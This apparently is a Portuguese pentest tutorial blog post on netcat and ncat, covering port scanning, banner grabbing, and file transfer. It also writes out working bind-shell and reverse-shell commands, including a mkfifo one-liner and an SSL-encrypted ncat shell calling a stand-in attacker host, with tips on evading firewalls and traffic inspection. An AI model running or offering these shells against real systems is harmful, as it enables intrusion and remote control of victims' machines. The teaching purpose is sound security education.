



> Escrito por: Mateus Gualberto (Midnight Reverser) - **orgulho de escrever sem IA envolvida no processo!**  
> Licença: livre, como todo conhecimento deve ser.  

# Introdução

Nessa série de postagens, iremos descrever ferramentas essenciais que serão úteis para diversos cenários de pentest.

Essas ferramentas servirão principalmente para execução de comandos, estabelecimento de *shells*, envio de arquivos e análise de pacotes de redes.

Hoje trataremos no Netcat, ou `nc`. O IP utilizado pode sofrer alterações de exemplo para exemplo, logo é importante que o leitor entenda as diferenças entre o IP da vítima e do atacante ao longo do texto.

## nc
Netcat, ou nc, é um software que permite interação com serviços disponíveis em uma rede, independente de usarem UDP ou TCP na camada de transporte. Em cenários de reconhecimento e enumeração, ele pode ser útil para realizar varredura por serviços, hosts e buscar por versões de aplicações que estão expostas na internet ou intranet.

É um software que já vem por padrão em várias distribuições linux, tornando-o uma ferramenta de interesse por invasores.

### Exemplo 1 - Conectando-se a TCP
O uso mais básico do netcat é descrito abaixo. Ele irá tentar fechar uma conexão TCP no host/porta especificado.

```sh
nc -v <ip ou hostname> <porta>
```

O argumento `-v` irá trazer informações úteis sobre a conexão. Caso ela tenha sucesso, como em `nc -v google.com 80`, teremos o seguinte resultado: 



Porém, caso a porta especificada não esteja aberta no alvo, teremos a seguinte saída:


> Isso já nos dá a possibilidade de produzir um scanner de portas em shell script para identificar portas abertas em um host especificado.

Quando conectado com sucesso ao *socket* (tupla ip:porta), é possível enviar e receber bytes pelos descritores de entrada padrão e saída/saída de erro padrão (stdin/stdout), respectivamente.

Nos próximos exemplos exploraremos a conexão UDP e os potenciais usos de envio e recebimento de bytes.

### Exemplo 2 - Conectando-se a UDP
No exemplo passado, realizamos a conexão utilizando TCP como protocolo de camada de transporte. Existem protocolos da camada de aplicação, como o DNS, que não utilizam TCP e sim UDP.

Para se conectar a essas aplicações usando o netcat, passaremos a flag `-u`, de UDP:

 ```sh
 nc -v -u <ip ou hostname> <porta>
 ```
 
 Um exemplo prático é a comunicação com o DNS do Google:
 
 

### Exemplo 3 - Conectando-se ao HTTP & enumeração de versão
Para comunicação HTTP, podemos realizar requisições manualmente através do netcat:


Nesse caso, segundo as especificações do HTTP, na primeira linha de requisição temos que passar o método, o recurso a ser acesso e qual versão do HTTP deve ser utilizada nessa comunicação. Isso está descrito na [RFC do HTTP](https://datatracker.ietf.org/doc/html/rfc2616).

> Note que, caso você conheça o formato das requisições a serem realizadas para determinado protocolo, é possível utilizar o netcat para acessá-lo e utilizá-lo.

**NOTA:** Para HTTP, precisamos dar dois "enter" (tecnicamente, dois caracteres *carriage return* e *new line*) para que o servidor retorne as informações para o cliente (netcat). Isso é necessário pois podemos enviar headers após a solicitação de determinado recurso.

Em determinados servidores de hospedagem HTTP, um mesmo IP pode estar sendo utilizado para diversos domínios/aplicações. Nesses casos, torna-se necessário enviar o header `Host: dominio.com` especificando qual aplicação queremos acessar.


Note que nas imagens anteriores, a versão do servidor foi retornada na resposta. Isso vale para outros servidores e protocolos, e se chama *enumeração de versão*, algo vital em um pentest, pois a partir disso podemos buscar por vulnerabilidades ou possíveis fragilidades naquela versão específica do servidor.

### Exemplo 4 - Fazendo um mini-chat
Uma das funções mais úteis do netcat é a possibilidade de utilizá-lo também como servidor. Para isso, iremos especificar três flags nos argumentos de linha de comando:

```sh
-n # não resolve hostnames, ou seja, utiliza apenas os IPs encontrados nas interfaces de rede da máquina
-l # de "listening", ou seja, informa ao netcat que desejamos ouvir conexões (modo servidor)
-v # modo verbose
-p # define a porta que o netcat deve realizar um "bind"
```

O comando final ficará assim:

```sh
nc -nlvp 1337
```



Acima especificamos a porta TCP 1337 como "bind" do nosso servidor. Toda comunicação para o servidor do netcat deverá acontecer por ela.

Vamos, agora, conectar um outro terminal (ou outro host) e executar o netcat como cliente:


Logo em seguida, no servidor nos é informado que há uma conexão estabelecida com nossa sessão:


A partir de agora, é possível enviar e receber dados de qualquer um dos lados:

Envio de mensagem pelo servidor:


Recebimento da mensagem pelo cliente:


### Exemplo 5 - Enviando e recebendo arquivos
Como estamos utilizando uma shell para invocar o netcat, podemos redirecionar a entrada e saída padrão para que sejam arquivos. Dessa forma, podemos utilizar a ferramenta para envio de arquivos para um host remoto.

Por exemplo, para repassarmos um arquivo malicious.exe para uma vítima, faríamos:

Vítima:
```sh
nc -lvp 1337 > malicious.exe
```

Atacante:
```sh
nc ip_da_vitima 1337 < malicious.exe
```


Note que a vítima está utilizando o netcat como servidor e o atacante como cliente, mas também é possível realizar o processo contrário, como nos comandos a seguir:

Atacante:
```sh
nc -lvp 1337 < malicious.exe
```

Vítima:
```sh
nc ip_do_atacante 1337 > malicious.exe
```

Em ambos os casos, a vítima irá redirecionar a saída padrão (>) para um arquivo chamado malicious.exe. Ou seja, todos os bytes que chegarem pelo netcat irão compor o arquivo final.

Quando o atacante redireciona a sua entrada padrão (<) para o arquivo malicious.exe, o netcat irá enviar todos os bytes desse arquivo para a vítima.

Esse procedimento pode levar um tempo e o netcat não mostra informações da completude do envio, logo devemos esperar um momento até que todos os bytes sejam enviados. Como explicaremos em outras postagens, uma shell reversa e *exploits*, de uma forma geral, são arquivos pequenos, que não vão demorar para serem transferidos.

Nas imagens a seguir, foi realizado o primeiro procedimento descrito nessa seção. Após o envio, podemos confirmar que o arquivo recebido pela vítima realmente é um binário PE (EXE) com o comando `file`:

### Exemplo 6 - Bind shell
Uma *bind shell* é um dos tipos mais básicos de malware para controle de um alvo. O procedimento é o seguinte:

> 1. O atacante envia um arquivo malicioso para que a vítima execute. Esse malware irá habilitar um pequeno servidor ("abrir uma porta") no computador do alvo.
> 2. O atacante irá, então, se conectar a esse pequeno servidor, utilizando o IP do alvo e a porta escolhida previamente.
> 3.  Ao estabelcer a comunicação, o invasor poderá enviar comandos (como comandos do cmd, powershell ou bash) para que o alvo execute e envie a resposta.


Isso garante o controle remoto de um computador.
Para que não necessitemos (por hora) codificar um malware desse tipo, o netcat já consegue nos prover o necessário para realizar esse procedimento, ao passarmos o argumento `-e` para a vítima.

`-e, --exec <command>       Executes the given command`

> Note que nas versões mais recentes do Ubuntu, você deve baixar o `ncat`, versão do netcat distribuído pela nmap.org. Para que os comandos abaixo funcionem, executem antes `alias nc=ncat`.

Além da opção `-e`, temos que repassar qual será o binário responsável por realizar o processamento e interpretação dos comandos. Em windows, podemos utilizar `-e cmd.exe` e em Linux `-e /bin/bash`.

O comando de uma vítima Linux ficará assim:

```sh
nc -nlvp 1337 -e /bin/bash
```

Ao conectarmos com `nc ip_da_vitima 1337` e digitarmos algum comando reconhecido pelo `/bin/bash`, teremos o retorno:


Isso nos permite executar código arbitrário, enviar arquivos, entre outras possibilidades. Supondo que a vítima seja um servidor que esteja exposto na internet, é possível ter acesso à rede interna a partir do conceito aprendido nessa seção.

### Exemplo 7 - Reverse shell
O conceito de shell reversa surgiu devido a bloqueios padrão de ferramentas de segurança a nível de rede, como Firewalls, que geralmente bloqueiam requisições *inbound* para computadores da rede interna.

Isso é possível pois geralmente quem faz as requisições são os computadores da rede interna para um servidor externo (como o acesso a um webserver) e não o contrário.

Além disso, uma *bind shell* pode gerar um alerta suspeito no alvo devido ao processo de binding com uma porta. Um funcionário comum de escritório não necessita abrir um servidor em uma porta não-padrão no dia-a-dia.

Vamos entender o fluxo e as vantagens de se utilizar uma shell reversa:

> 1. O atacante irá subir um pequeno servidor na sua máquina
> 2. Ele enviará um pequeno malware para a vítima, que quando clicado irá tentar se comunicar com o servidor do atacante
> 3. O atacante irá enviar comandos para a vítima, que irá executar e retornar seu output

> Por vezes, esse tipo de servidor é chamado de servidor C2, C&C ou command-and-control


Note que a diferença principal de uma shell reversa para uma shell bind é que o servidor estará do lado do atacante, permitindo mascarar o tráfego e evitar criar um servidor na vítima. A execução de comandos se dá da mesma forma que a bind shell.

Os comandos a serem executados para a realização de uma shell reversa via netcat são os seguintes:

Atacante:
```sh
nc -nlvp 80
```

Vítima:
```sh
nc ip_do_atacante 80 -e /bin/bash
```

Lembrando que podemos mudar o interpretador para o `cmd.exe` ou qualquer outro que exista no ambiente.

Especificamos a porta 80 por uma razão bem importante: geralmente tráfego na porta 80/HTTP é liberado em diversas empresas, e logo não terá restrições de comunicação. Para um cenário simples de monitoramento de rede, é apenas uma conexão de um computador com um site, por exemplo.

### Exemplo 8 - Reverse shell (nova forma)
Versões padrão do netcat podem não conter mais a opção `-e`, que torna o trabalho do pentester um pouco mais complicado.

Contudo, mesmo sem essa opção é possível utilizar a ferramenta para estabelecer uma shell reversa com o alvo. Para isso, utilizaremos parte da linha de comando do Netcat OpenBsd, disponível no github do [Payload All The Things](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#netcat-openbsd).

Atacante:
```sh
nc -nlvp 8080
```

Vítima:
```sh
mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc attacker_ip 8080 >/tmp/f
```

- `mkfifo /tmp/f`: A vítima irá criar um arquivo *FIFO* (named pipe, uma forma de comunicação interprocessos), em `/tmp/f`, para recebimento dos comandos do atacante e envio dos outputs.
- `cat /tmp/f | /bin/sh -i 2>&1 | nc attacker_ip 8080 >/tmp/f`: Essa segunda parte irá esperar e ler os comandos recebidos no named pipe (através do `cat`), passá-los para o processamento da shell `/bin/sh` e redirecionar a saída de erro para a saída padrão com `2>&1` (para que os erros também sejam enviados ao atacante). Por fim, o trecho  `nc attacker_ip 8080 >/tmp/f` irá fazer o papel de ponte entre o atacante e a vítima, obtendo os comandos e enviando as saídas.

Exemplo de resultado da execução:

Vítima:


Servidor C2:


### Exemplo 9 - Modo scan
A fim de detectar serviços em um host, podemos utilizar o argumento `-z` passando o ip do host a ser escaneado e uma porta ou range de portas.

```sh
nc -vz ip_host range_ports
```

Onde `range_ports` pode ser uma única porta ou um intervalo fechado no formato `porta_min-porta_max`.

Um exemplo da saída desse comando:



Nessa saída, podemos ver que do range de portas 75 a 85 do host, apenas a porta 80 estava aberta.

## ncat
O ncat é a versão do netcat com suporte ao SSL/TLS. Essa vantagem permite a enumeração de alvos que utilizem esses protocolos, como o HTTPS, e ofuscação de comandos enviados para o destino em uma *shell* caso o alvo não realize inspeção TLS.

> Para instalá-lo em versões atuais do Ubuntu, use `sudo apt update -y && sudo apt install ncat -y`

Por exemplo, se quisermos acessar o host `google.com` na porta 443 usando o `nc`, ao enviarmos qualquer requisição, a conexão é fechada:


Já quando usamos o `ncat`, com o argumento `--ssl`, podemos digitar nossa requisição sem erros:


Importante notar que a maioria (senão todos) os comandos do netcat são válidos no `ncat`.

Logo, podemos criar um servidor que utiliza SSL e realizar um procedimento de shell reversa com uma vítima. Em cenários em que não há inspeção de tráfego SSL/TLS, esse é um método que pode mascarar os comandos que estão sendo enviados, pois eles estarão sendo enviados criptografados.

Atacante:
```sh
ncat --ssl -nlvp 1337
```

Vítima:
```sh
ncat --ssl 127.0.0.1 1337 -e /bin/bash
```

Abaixo, o resultado do teste:


